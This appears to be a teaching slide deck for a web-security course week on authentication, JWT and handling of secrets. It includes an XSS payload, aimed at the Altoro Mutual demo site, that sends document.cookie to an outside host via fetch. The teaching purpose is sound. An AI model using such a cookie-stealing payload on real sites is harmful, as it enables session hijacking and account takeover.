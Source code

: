 ```yaml
---
title: "Week 3 - Auth and IAM"
layout: "bundle"
outputs: ["Reveal"]
date: 2023-02-24T02:57:21+10:00
---
```


{{< slide class="center" >}}

## Week 3

---

## DNS Recon Recap

* Walkthrough
  * [Sublist3r](https://github.com/aboul3la/Sublist3r)
  * [Word List](https://github.com/danielmiessler/SecLists/tree/master/Discovery/DNS)

---

## Lecture Review

* Build a Flask app
* Python semantics, `__name__`, `__main__`, `__dir__`
* JWT

---

## More on JWT

* Anatomy of a JWT token
* What should be in a JWT token
* Pros and Cons
* Store secrets in a `.env`?

---

# DevOps, DevSecOps, DevSec..Oops..

{{% section %}}

More on this in later weeks

* `.env` + `.gitignore`
* Scoped env command

---

If it's in the environment, it's accessible to the entire process.  
Even if you unset it in the code >:(

* `/proc/self/environ`

{{% /section %}}

---

> Alternatives

* External data sources (config servers)
  * i.e. AWS Parameter Store
  * i.e. Google Secrets Manager
  * i.e. HashiCorp Vault
  * i.e. Apple KeyChain

---

## Back to Altoro Mutual

jk the demo did work I was just dumb

> 👉 Login as admin first 👈

```
<script>fetch("https://[...]/?v="+btoa(document.cookie))</script>aaa
```

---

## How to be a script kiddie

* Python + `requests`
* Node.js + `node-fetch`
* JavaScript + `fetch`
* JavaScript + `XMLHTTPRequest`
* etc

---

## Session Management

* Last week, auth via cookies
* What does it mean to "log out"
